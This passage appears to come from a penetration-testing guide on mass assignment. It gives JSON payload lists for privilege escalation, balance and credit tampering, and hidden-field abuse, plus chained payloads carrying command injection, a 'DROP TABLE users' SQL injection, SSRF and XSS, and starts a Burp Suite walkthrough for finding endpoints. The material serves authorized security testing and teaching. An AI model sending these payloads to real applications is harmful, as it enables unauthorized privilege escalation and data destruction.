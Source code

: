 - **Unauthorized Field Payloads**:
  - `{"user":"test","role": "admin"}`
  - `{"email":"test@example.com","is_admin":true}`
  - `{"name":"Test","permissions":"full"}`
  - `{"username":"test","access_level":1}`

- **Role Escalation Payloads**:
  - `{"role":"admin"}`
  - `{"user_type":"superuser"}`
  - `{"group":"administrators"}`
  - `{"privileges":"root"}`

- **Sensitive Data Modification Payloads**:
  - `{"balance":1000000}`
  - `{"account_status":"verified"}`
  - `{"credit_limit":99999}`
  - `{"subscription":"premium"}`

- **Hidden Field Exploitation Payloads**:
  - `{"_is_admin":true}`
  - `{"hidden_role":"owner"}`
  - `{"internal_id":1}`
  - `{"_debug_mode":true}`

- **API Parameter Tampering Payloads**:
  - `{"user":"test","admin":true,"id":1}`
  - `{"email":"test@example.com","is_active":true}`
  - `{"profile":"public","is_private":false}`
  - `{"data":{"name":"test","role":"admin"}}`

- **Chained Attack Payloads**:
  - `{"user":"test","role":"admin","cmd":"whoami"}` (Mass Assignment + Command Injection)
  - `{"email":"test@example.com","is_admin":true,"sql":"1; DROP TABLE users"}` (Mass Assignment + SQL Injection)
  - `{"name":"test","role":"admin","url":"http://localhost"}` (Mass Assignment + SSRF)
  - `{"user":"test","is_admin":true,"script":"<script>alert(1)</script>"}` (Mass Assignment + XSS)

**Note**: Payloads depend on the application’s data model (e.g., Rails, Django) and API structure (e.g., JSON, form-data). Test payloads in query parameters, POST bodies, JSON payloads, or headers where data is processed.

### 1. Identify Mass Assignment Endpoints

**Objective**: Locate inputs or endpoints that update server-side data models.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, APIs, or features that update user data (e.g., profile updates, account settings).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or interact with APIs to capture requests in HTTP History.
   - Note parameters (e.g., `user=test`, `email=test@example.com`).
3. Inspect responses:
   - Check for updated data or success messages.
   - Use Developer Tools (`Ctrl+Shift+I`) to analyze requests.
4. List endpoints:
   - Document URLs, forms, and API endpoints (e.g., `POST /api/update`).

